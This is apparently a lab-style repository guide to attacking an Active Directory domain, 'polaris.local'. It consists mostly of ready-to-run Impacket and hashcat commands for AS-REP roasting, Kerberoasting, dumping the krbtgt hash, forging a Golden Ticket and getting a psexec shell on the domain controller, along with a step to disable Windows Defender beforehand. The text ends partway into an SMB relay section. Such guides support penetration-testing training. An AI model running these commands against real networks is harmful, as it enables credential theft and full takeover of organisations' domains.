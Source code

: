 #### AS-REP Roasting
1. Obtain the content of AS-REP message encrypted with the user  of password hash of users with no pre-authentication
```bash
GetNPUsers.py polaris.local/ -no-pass -usersfile valid_users.txt -format hashcat -outputfile hashes.asreproast
```
2. Try to decrypt the encrypted content:
```bash
hashcat -m 18200 hashes.asreproast passwords.txt -o cracked1.txt --force --quiet
```

#### Kerberoasting
1. Obtain a TGS for a service.
```bash
GetUserSPNs.py -request polaris.local/jesse.pinkman:Wang0Tang0! -outputfile kerberoasting.hashes
```

2. Try to decrypt the encrypted content.
```bash
hashcat -m 13100 kerberoasting.hashes passwords.txt -o cracked2.txt --force --quiet
```


#### Golden Ticket
Before performing the attack, deactivate Windows Defender. To access its configuration, on the *Server Manager* go to *Local Server* and click on the *Windows Defender Antivirus* link.

1. Get the krbtgt’s password hash:
```bash
 secretsdump.py polaris.local/administrator:"Passw0rd"@192.168.122.10 | grep krbtgt
```

2. Get the domain SID: 
```bash
lookupsid.py polaris.local/administrator:"Passw0rd"@192.168.122.10
```
3. Create a forged ticket for a user that existss in the Domain: 
```bash
ticketer.py -nthash <krbtgt_hash> -domain-sid <domain_SID> -domain polaris.local -user-id <rid> <username>
```

Check that a file named `admin.ccache` was created. This is the file that stores the TGT.

4. Export the ticket path to the KRB5CCNAME environment variable: 
```bash
export KRB5CCNAME=<username>.ccache
```

5. Get a shell on the DC of the domain: 
```bash
psexec.py polaris.local/<username>@dc1.polaris.local -k -no-pass
```

**[NOTE:]** Add dc1.polaris.local in `/etc/hosts`.


#### SMB Relay
1. At the **attacker**, disable SMB and HTTP responses since these will be handled by **ntlmrelayx.py*. Enter `nano ~/Responder/Responder.conf` and modify the following entries:
```bash
SMB = Off
HTTP = Off
```
